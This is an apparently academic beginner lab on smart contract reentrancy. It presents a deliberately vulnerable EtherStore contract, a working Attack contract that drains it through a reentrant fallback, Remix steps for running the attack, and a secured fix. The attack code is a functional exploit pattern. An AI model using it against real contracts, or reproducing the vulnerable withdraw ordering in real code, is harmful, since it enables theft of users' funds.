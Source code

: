 # Module 9 - Beginner Lab: Smart Contract Security

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming, such as the [checks-effects-interactions pattern][checks-effects-interactions].

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Beginner. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines for which it is impractical to present the breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many other vulnerabilities which could be the focus of this lab instead. |

## Assignment Instructions
1. First, we begin by creating a contract with a simple purpose, such as temporarily holding Ether for the owner(s). Click the plus icon ![plus-icon.png](screenshots/plus-icon.png) in the upper left corner of [Remix][Remix] to create a new document and name it `EtherStore.sol`. Then copy and paste the following code into it:  
    [_EtherStore.sol_][EtherStore.sol]
    ```solidity
    contract EtherStore {

        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            require(msg.sender.call.value(_weiToWithdraw)());
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
     }
    ```
    ![create-new-file](screenshots/create-new-file.png)  
    ![etherstore-created.png](screenshots/etherstore-created.png)
2. Click on the plugin icon ![plug-icon.png](screenshots/plug-icon.png) in the left-most pane of Remix.  
    ![left-icon-pane.png](screenshots/left-icon-pane.png)
3. Activate the `Deploy & Run Transactions` and `Solidity Compiler` plugins.
    ![plugins-to-activate.png](screenshots/plugins-to-activate.png)  
    You should see two new icons in the leftmost pane: one, the solidity compiler ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png), looks like an "s", and the other, deploy and run ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png), is the Ethereum symbol with an arrow to the right.  
    ![activated-plugin-icons.png](screenshots/activated-plugin-icons.png)
4. Click the solidity compiler plugin icon ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png).
5. Select compiler `0.4.26+commit.4563c3fc`.  
    ![compiler-version.png](screenshots/compiler-version.png)  
6. Click the `Compile EtherStore.sol` button ![compile-etherstore-button.png](screenshots/compile-etherstore-button.png) and wait for compilation to complete. For the purposes of this lab, you can safely ignore all (orange) warnings.  
    ![compile-etherstore.png](screenshots/compile-etherstore.png)  
7. Click the deploy-and-run plugin icon ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png).
8. Click the orange `Deploy` button ![orange-deploy-button.png](screenshots/orange-deploy-button.png).
9. A smart contract, **EtherStore** will be deployed to the blockchain. Click the arrow on the left of it to reveal its functions.  
    ![etherstore-deployed.png](screenshots/etherstore-deployed.png)  
    ![etherstore-functions.png](screenshots/etherstore-functions.png)
10. In the value box, type `10`, and in the dropdown box next to it, select `ether`.  
    ![value-box-with-ether.png](screenshots/value-box-with-ether.png)
11. Click the `depositFunds` function button ![deposit-funds-button.png](screenshots/deposit-funds-button.png) under the `EtherStore` deployed contract.  
    ![etherstore-functions.png](screenshots/etherstore-functions.png)
12. Notice that the selected account has been debited `10 ether` (as well as some gas fees for contract deployment and the deposit transaction), leaving `89.999... ether` from the original `100 ether`.  
    ![less-10-ether.png](screenshots/less-10-ether.png)
13. We then create an other contract to attack `EtherStore.sol`. Create a new contract named `Attack.sol`, and copy/paste the following code:  
    [_Attack.sol_][Attack.sol]
    ```solidity
    import "./EtherStore.sol";

    contract Attack {
      EtherStore public etherStore;

      // intialize the etherStore variable with the contract address
      constructor(address _etherStoreAddress) {
          etherStore = EtherStore(_etherStoreAddress);
      }

      function attackEtherStore() public payable {
          // attack to the nearest ether
          require(msg.value >= 1 ether);
          // send eth to the depositFunds() function
          etherStore.depositFunds.value(1 ether)();
          // start the magic
          etherStore.withdrawFunds(1 ether);
      }

      function collectEther() public {
          msg.sender.transfer(this.balance);
      }

      // fallback function - where the magic happens
      function () payable {
          if (etherStore.balance > 1 ether) {
              etherStore.withdrawFunds(1 ether);
          }
      }
    }
    ```
    ![attack-created.png](screenshots/attack-created.png)  
14. In `Attack.sol`, observe that whenever this contract's `attackEtherStore` function is called with a transaction amount >= 1 ether, it then calls the `EtherStore` contract’s `depositFunds` function, followed immediately by `EtherStore`'s `withdrawFunds` function. The `EtherStore` contract verifies the balance, owner, withdrawal amount, and time since last withdrawal are all okay and proceeds to pay the attacking contract. So far, everything seems okay; however, once the `EtherStore` contract pays the `Attack` contract, execution of the code flows into the `Attack` contract's fallback function (the function called when a contract is paid any amount). Inside the `Attack` contract's fallback function, `EtherStore`'s balance is checked, and provided there is ether remaining to steal, the `withdrawFunds` function is called again. The `Attack` contract has, in effect, caused execution to "reenter" the `EtherStore` contract's `withdrawFunds` function before it could update the values it checks to ensure everything is okay before paying out.
15. Click the clipboard icon ![clipboard-icon.png](screenshots/clipboard-icon.png) to the right of the deployed `EtherStore` contract to copy its address; we will need it to tell the `Attack` contract what to attack.  
    ![clipboard-surroundings.png](screenshots/clipboard-surroundings.png)
16. Repeat the previous compilation and deployment steps for the `Attack` contract, but just prior to deploying, we'll need to supply the `EtherStore` contract's address.
17. Paste the previously-copied `EtherStore` address into the box just to the right of the orange `Deploy` button.  
    ![address-pasted.png](screenshots/address-pasted.png)  
18. Deploy the `Attack` contract.
19. Enter 1 ether in the value box where we previously entered 10 ether.
20. Click the arrow to reveal the `Attack` contract's functions, and then click the `attackEtherStore` function button.
21. Now click the `collectEther` function button.
22. Observe that the account has been credited 9 ether (bringing it to 98.999...), when it should have only been possible for the deposited 1 ether to be withdrawn.
23. We can prevent an attack like this in a few different ways. One way is to use the built-in `transfer` function, which only sends 2300 gas, insufficient to allow the current execution to call the `withdrawFunds` function again. An other way is to use what's known as the [checks-effects-interactions pattern][checks-effects-interactions], which would have us move lines 18 and 19 to before line 17, so that updates to checked variables are done before interaction with an outside entity. One more way we could prevent this attack is with an additional state variable, called a mutex or mutual exclusion variable, which acts as a lock and prevents further execution from occurring until the current function exits (and resets the mutex). Including all three methods (though any one would work), we have a more-secure `EtherStore`, which we'll call `SecuredEtherStore`:  
    [_SecuredEtherStore.sol_][SecuredEtherStore.sol]
    ```solidity
    contract SecuredEtherStore {

        // initialize the mutex
        bool reEntrancyMutex = false;
        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(!reEntrancyMutex);
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
            // set the reEntrancy mutex before the external call
            reEntrancyMutex = true;
            msg.sender.transfer(_weiToWithdraw);
            // release the mutex after the external call
            reEntrancyMutex = false;
        }
     }
    ```
24. Repeating the procedures above but using the new `SecuredEtherStore` contract will result in the attack failing; give it a try!

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[EtherStore.sol]: EtherStore.sol
[Attack.sol]: Attack.sol
[SecuredEtherStore.sol]: SecuredEtherStore.sol
[checks-effects-interactions]: https://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern
